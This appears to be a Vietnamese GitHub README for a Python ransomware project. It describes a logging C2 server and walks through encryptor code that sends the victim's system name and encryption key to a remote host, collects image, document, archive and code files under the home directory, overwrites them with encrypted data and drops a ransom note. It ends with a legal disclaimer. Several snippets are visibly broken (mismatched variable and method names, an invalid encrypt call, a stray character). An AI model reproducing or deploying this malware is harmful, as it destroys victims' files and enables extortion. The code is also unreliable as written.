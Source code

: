  # RANSOMWARE
 *Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.*
 ## SERVER
 - **Tính Năng**

 **Xử Lý Kết Nối Máy Khách:** *Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến.*

 **Đa Luồng:** *Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.*

 **Ghi Nhật Ký Hoạt Động:** *Ghi nhật ký hoạt động của máy khách vào cơ sở dữ liệu SQLite.*

 **Ghi Nhật Ký Lỗi:** *Ghi nhật ký lỗi gặp phải bởi máy chủ vào cùng một cơ sở dữ liệu.*

 - **Cấu Trúc Mã**

 **Lớp Máy Chủ:** *Quản lý khởi tạo máy chủ, kết nối máy khách và xử lý dữ liệu.*

 **Lớp SQLiteLog:** *Xử lý các thao tác cơ sở dữ liệu bao gồm kết nối, tạo bảng và ghi nhật ký hoạt động/lỗi.*

 **Hàm Console:** *In các thông điệp ra cửa sổ console với đầu ra màu sắc.*
 
 **Hàm Main:** *Khởi tạo máy chủ và bắt đầu lắng nghe các kết nối.*

 - **Xử Lý Lỗi**

 *Kịch bản bao gồm xử lý lỗi mạnh mẽ để xử lý ngoại lệ một cách nhẹ nhàng và ghi nhật ký lỗi để gỡ lỗi và bảo trì.*

 - **Đóng Góp**

 *Các đóng góp để cải thiện tính năng, tính bảo mật và hiệu suất của kịch bản là hoan nghênh. Fork kho lưu trữ, thực hiện các thay đổi của bạn và gửi yêu cầu kéo.*

 - **Giấy Phép**

 *Kịch bản này được cấp phép theo Giấy Phép MIT. Xem tệp LICENSE để biết thông tin chi tiết.*
 ## ENCRYPT
 - **__init__:**
  *Khởi tạo các biến cần thiết như địa chỉ IP và cổng máy chủ, khóa riêng tư (Private) được tạo từ **Fernet**.*
 ```python
def __init__(self, host: str, port: str) -> None:
    self.host = host
    self.port = port
    self.server = socket(AF_INET, SOCK_STREAM)  # Tạo socket kết nối TCP
    self.key = Fernet.generate_key()  # Tạo khóa bí mật ngẫu nhiên
    self.Private = Fernet(self.key)  # Tạo đối tượng Fernet với khóa bí mật
    self.system = os.uname().sysname  # Lấy tên hệ thống
 ```

 - **ConnectServer:**
  *Kết nối đến máy chủ với số lần thử lại tối đa là 3. Nếu kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.*
 ```python
def ConnectServer(self, connected=False) -> None:
    retries = 0
    while not connected and retries < 3:
        try:
            # Kết nối đến máy chủ với địa chỉ và cổng đã cung cấp
            self.server.connect((self.host, self.port))
            # Gửi thông tin hệ thống và khóa đến máy chủ
            self.server.sendall(f'{self.system}|{self.key.decode("utf-8")}'.encode('utf-8'))
            connected = True
        except:
            # Tăng số lần thử lại và chờ 100 giây trước khi thử lại
            retries += 1
            if retries < 3:
                sleep(100)
            else:
                # Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình
                os.execv(sys.executable, [sys.executable] + sys.argv)
        finally:
            # Đóng kết nối sau khi thực hiện xong
            self.server.close()
 ```
 - **Encrypted:**
  *Mã hóa các tệp trên hệ thống. Nó lặp qua tất cả các tệp trong hệ thống, mã hóa chúng bằng cách đọc và ghi dữ liệu từng phần. Lặp qua tất cả các tệp trong thư mục đã chỉ định và mã hóa từng tệp.*
 ```python
def Encrypted(self):
   for _, files in self.listfiles().items():
        for file in files:
            temp_file = file + '.temp'
 ```
 *Mở tệp gốc để đọc và tệp tạm thời để ghi*
 ```python
 try:
   with open(file, 'rb') as original_file, open(temp_file, 'wb') as encfile:
      while True:
         # Đọc dữ liệu từ tệp gốc thành các phần nhỏ có kích thước 4 MB
         hunk = original_file.read(4096 * 1024)
         if not chunk:
            break
         # Mã hóa từng phần nhỏ kích thước khóa là 32
         enc_chunk = self.Private.encrypt(chunk, 32)[0]
         # Ghi phần nhỏ đã mã hóa vào tệp tạm thời
         encfile.write(enc_chunk)
      os.replace(temp_file, file)
 except:
      pass  # Bỏ qua bất kỳ ngoại lệ nào
 finally:
   #Nếu tệp tạm thời tồn tại, xóa nó
   if os.path.exists(temp_file): 
      os.remove(temp_file)
 ```

 - **Contact:**
  *Tạo một tệp văn bản chứa thông điệp yêu cầu thanh toán chuộc.* 

 - **Listfiles:** 
 *Liệt kê các tệp trên hệ thống và phân loại chúng dựa trên phần mở rộng.*

 *Các phần mở rộng tệp được chia thành các danh mục như sau.*
 ```python
def Listfiles(self) -> dict:
    exts = {
        'images': ['.jpg', '.png'],
        'documents': ['.txt', '.docx'],
        'others': ['.rar', '.zip', '.mp4'],
        'code': ['.java', '.py', '.pyc', '.html', '.css']
    }
 ```
 *khởi tạo với các khóa là các danh mục từ exts và giá trị là danh sách rỗng.*
 *Nó sẽ được sử dụng để lưu trữ các tệp theo danh mục.*
 ```python
    file_categories = {category: [] for category in exts}S
 ```
 *Từ điển này ánh xạ từng phần mở rộng tệp đến danh mục tương ứng của nó.*
 *Điều này giúp dễ dàng xác định danh mục của một tệp dựa trên phần mở rộng của nó.*
 ```python
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}
 ```
 *Sử dụng* **Path.home().rglob('**~**')** *để liệt kê tất cả các tệp trong thư mục home của người dùng*
 *Kiểm tra nếu entry là một tệp **entry.is_file()**.*

 *Lấy phần mở rộng của tệp **entry.suffix.lower()**, chuyển nó thành chữ thường và gán vào biến ext.*

 *Nếu ext có trong extcategory, thêm đường dẫn của tệp entry vào danh sách tương ứng trong file_categories.*
 
 *trả về các tệp đã được phân loại.*
 ```python
    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))
    return file_categories
 ```
 ### Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!
